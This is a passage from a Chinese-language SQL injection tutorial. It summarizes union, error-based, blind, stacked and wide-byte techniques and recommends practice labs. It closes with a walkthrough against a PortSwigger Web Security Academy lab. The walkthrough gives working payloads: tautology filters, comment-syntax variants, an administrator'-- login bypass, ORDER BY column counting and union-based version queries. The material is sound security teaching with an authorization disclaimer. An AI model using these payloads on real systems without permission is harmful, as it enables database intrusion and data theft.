| 5 | 我在哪个库、什么账号？ | `database()`、`current_user()` | —— |
| 6 | 有哪些表、哪些字段？ | `information_schema` | 被过滤，换十六进制/盲注 |
| 7 | 数据长什么样？ | `union select` 拖 / 盲注脚本 | 慢，但不影响结果 |
| 8 | 能不能升级？ | `FILE` 权限、`secure_file_priv`、数据库类型 | 只能停在「读」 |

### 三种「没回显」的替代方案

```
有报错  →  extractvalue / updatexml / floor(rand)
有真假  →  布尔盲注（二分法，脚本）
只有快慢 →  时间盲注（sleep / benchmark）
```

### 一句话总结每种技术

- **union**：借它的打印口，打印我的东西
- **报错**：让它把答案念错出来
- **布尔**：二十问游戏
- **时间**：按门铃数秒
- **堆叠**：一张单子写完再订一张
- **二次**：存进去的纸条，三天后被人当真
- **宽字节**：两个字手拉手，把反斜杠挤掉
- **写文件**：往档案室墙上装对讲机

### 这条链在真实世界里长什么样

```
扫描指纹 → 未认证注入 → 伪造会话 / 拿管理员 → 写 webshell → 打包外带 → 勒索
   ↑                                                              ↓
   └────────────────────  工业化流水线，24 小时内完成  ←──────────────┘
```

---

## 八、练完这篇，下一步练什么

- **sqli-labs**：比 DVWA 更细，65 关，每一关考一种过滤/上下文。GitHub 上搜 `sqli-labs`，一样丢进 `/var/www/html/` 就能跑。
- **PortSwigger Web Security Academy**：免费的在线靶场，SQL 注入有十几道题，从「有回显」到「盲注」到「二次注入」全有，还有官方讲解。
- **Burp Suite**：Kali 自带 Community 版。学它不是为了「自动打」，是为了**看清每一个请求长什么样** —— 你后面遇到 POST、JSON、自定义头，全靠它。
- **先把 DVWA 剩下几关打完**：Command Injection、File Upload、File Inclusion，跟 SQL 注入是同一套思路的不同变种。

**最后说一句可能不太好听的话：** SQL 注入的技术门槛在降低（工具越来越傻瓜），工程门槛在升高（会打一个 DVWA 的人很多，能在真实系统里判断「这条连接背后是谁、该不该继续」的人很少）。

前者是脚本，后者才是工程师。

---

## 九、声明

本文所有操作都在虚拟机里、对着自己搭的 DVWA 靶场完成。DVWA 是公开的练习靶场，随便打；Kali 是合法的安全测试系统。

真实的站点、别人的服务器、公司的生产库 —— 没有书面授权就别碰。渗透测试和犯罪的界限只有一条：**授权**。技术本身没有立场，用技术的人有。

文中的 CVE 编号、影响范围、在野利用情况来自公开的厂商公告、CISA KEV 清单和公开分析报告，只作为案例讲解，不构成任何攻击指导。因个人使用方式不当产生的任何问题，由使用者自行承担。

---

## 十、在公网实例实战一把
PortSwigger Web Security Academy

这是**真的在公网跑着的网站**，每个 lab 会为你单独启动一台实例：随机域名、真实数据库、真实后端，还有官方判定告诉你打没打进去。

### 1. 创建并打开实例

- 注册（免费，只要邮箱）：https://portswigger.net/users/register

- 打开这一关：https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data

- 点页面上的 Access the lab → 你会拿到形如下面的域名：

  ```text
  https://0a4700e1038f1f9c80b1d2a8004b00a7.web-security-academy.net/
  ```

  这个域名只有你能用，1 小时后自动销毁，可以随时重新开。

  

### 2. 正常请求

首页是商品列表。点一个分类（比如 Gifts），地址栏会变成：

```text
.../filter?category=Gifts
```

### 3. 先确认注入点

把地址栏最后的 Gifts 改成：

```text
Gifts'
```

回车 → 页面显示 Internal Server Error。引号被带进 SQL 了，注入点确认（这一步对应你 DVWA 的第 2 步）。

### 4. 闭合 + 恒真

```text
.../filter?category=Gifts'+OR+1=1--
```

回车 → 之前看不见的未发布商品全出来了，页面顶部弹出 Congratulations, you solved the lab!


+ 是空格的 URL 编码，不能省。-- 如果不生效，按顺序试这几件：

1. Gifts'+OR+1=1--    默认，多数情况直接过

2. Gifts'+OR+1=1--+    结尾空格被吃掉时补一个

3. Gifts'+OR+1=1%23    MySQL/MariaDB，# 当注释

4. Gifts'%20OR%201=1%20--%20    全编码，避免浏览器/代理乱改

### 5. 接着打这四关（正好对应第四节的顺序）

```text
.../lab-login-bypass                     用户名填 administrator'--     ← 登录绕过
.../lab-determine-number-of-columns      用 ' ORDER BY 1-- / 2-- / 3-- 数
.../lab-find-column-containing-text      union select 1,'a',1--
.../lab-query-database-type-and-version  union select 1,@@version,1--
```

每一关都有判定，打完你就有了“在真实站点上完成一次完整注入链”的完整记录，能直接截图写进文章。